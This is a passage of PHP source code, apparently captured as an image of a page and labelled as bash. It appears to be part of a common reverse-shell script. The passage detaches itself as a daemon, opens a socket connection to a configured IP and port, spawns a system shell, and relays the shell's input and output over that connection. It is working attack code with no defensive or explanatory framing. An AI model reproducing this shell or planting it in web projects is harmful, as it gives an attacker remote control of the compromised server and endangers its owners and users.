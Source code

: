 ```bash
        }

        if ($pid) {
                exit(0);  // Parent exits
        }
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
```